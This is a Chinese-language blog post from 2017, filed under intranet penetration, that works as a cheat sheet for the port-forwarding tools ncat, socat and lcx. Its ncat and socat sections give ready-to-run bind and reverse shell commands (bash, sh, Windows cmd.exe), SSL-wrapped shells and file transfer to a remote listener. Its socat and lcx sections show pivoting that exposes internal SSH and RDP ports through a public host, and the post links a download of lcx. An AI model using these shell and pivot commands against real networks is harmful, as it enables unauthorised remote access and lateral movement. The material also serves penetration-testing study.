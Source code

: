 ```yaml
---
layout: post
title:  "端口转发工具小结"
date:   2017-07-31
categories: 内网渗透
permalink: /archivers/2017-07-31/1
description: "介绍几款端口转发工具"
---
```

介绍几款端口转发工具
<!--more-->
## 0X00 ncat

### 反弹shell

服务器：`ncat -lnv -c bash 4489`  将bash转发到4489端口

客户端：`ncat -nv 172.17.0.1 4489` 连接到目标的4489即可获得交互式bash

Windows下用 `-c C:\windows\system32\cmd.exe`

参数介绍：

|`-l,--listen <port>` | 监听某个端口
| `-n, --nodns`　     |不通过DNS解析主机名
| `-v,--verbose`      |设置的详细程度(可以使用几次)
| `-c,--sh-exec`      | 执行传递的命令行

### 建立聊天室

服务端：`ncat -lnv --broker --chat 8432`

客户端：`ncat -nv 172.17.0.1 8432`

参数介绍：

| `--broker` | 使用ncat的代理连接模式，允许多个组织连接到ncat的服务器和其他人交流，ncat能创建一个经纪人在连接和系统之间通过NAT或者其他的直接连接。这个选项是和监听模式一起使用的。这会使监听端口的经纪人模式启动
| `--chat`   |　开启一个简单的ncat聊天服务器

### 采用SSL加密

* 服务器：`ncat -lnv -c bash 4489 --ssl`
* 客户端：`ncat -nv 172.17.0.1 4489 --ssl`

### 传输文件

服务端：
```
root@Kali:~$ ncat -lnv 1788 > tmp.txt
Ncat: Version 7.01 ( https://nmap.org/ncat )
Ncat: Listening on :::1788
Ncat: Listening on 0.0.0.0:1788
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:48004.
```

客户端：
```
root@504d96ae69cc:/docker_files# cat tmp.txt 
hello :)
root@504d96ae69cc:/docker_files# ncat -nv 172.17.0.1 1788 < tmp.txt 
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Connected to 172.17.0.1:1788.
Ncat: 9 bytes sent, 0 bytes received in 0.01 seconds.
root@504d96ae69cc:/docker_files# 
```


### 参数列表(中文)

[ncat参数](/tools/ncat.txt)

## 0x01 socat

### 安装

```bash
wget http://www.dest-unreach.org/socat/download/socat-2.0.0-b9.tar.gz
tar xvf socat-2.0.0-b9.tar.gz
cd socat-2.0.0-b9
./configure
make
make install
```


### 建立通信(聊天室)

| 服务端 | `socat - tcp4-listen:4444`
| 客户端 | `socat tcp:SERVER_IP:4444`

### 传输文件

| 服务端 | `socat tcp4-listen:4444 open:data.txt,creat,append` |
| 客户端 | `cat test.txt | socat - tcp:SERVER_IP:4444` |

> 传输二进制文件需要将append改成binary

### 反弹Shell

| 服务端 | `socat tcp-l:4444 exec:sh,pty,stderr`
| 客户端 | `socat - tcp:SERVER_IP:4444`
| tcp-l 是 `tcp4-listen` 的简写

### 端口转发

`socat - tcp-l:8888,fork tcp4:192.168.3.1:4477`

当本机接收到8888端口的数据，将全部转发给192.168.3.1主机上的4477端口

### UDP通信

| 服务端 | `socat - udp-l:4456` |
| 客户端 | `socat - udp-datagram:192.168.3.1:4456`
| 

### 公网转发到内网

| 服务端 | `socat tcp-listen:1234 tcp-listen:22` | 外网IP(`60.*.*.*`)
| 客户端 | `socat tcp:60.*.*.*:1234 tcp:192.168.3.1:22` | 内网IP(192.168.3.1)

### 内网转发到公网

```
                  ------------
                 |   Server   |
                 |  60.*.*.*  |
                  ------------
                 /            \
          {|<Firewall>|}    {|<Firewall>|}
                |                 |
          --------------      ----------------        
         | (192.168.3.1)|     | (192.168.3.2) |
          --------------      ----------------
       (hosting a service    (wanting to access
         on port 4200)         Client A port 4200)
```

| 服务端 | `socat - tcp-l:10000 tcp-l:4200`
| 客户端 | `socat tcp4:60.*.*.*:10000 tcp4:localhost:4200`

### 参考文档

[socat使用手册](/tools/socat)

## 0x02 lcx（go语言编写）

被控端192.168.10.2 ：

lcx <公网IP> 123

控制端 111.111.111.111：

lcx 456 123 192.168.10.2 3389

此时访问111.111.111.111的456就等于192.168.10.2:3389

[Download](http://www.secpulse.com/wp-content/uploads/2015/05/lcx._g.rar)
[相关文章](https://www.secpulse.com/archives/6341.html)




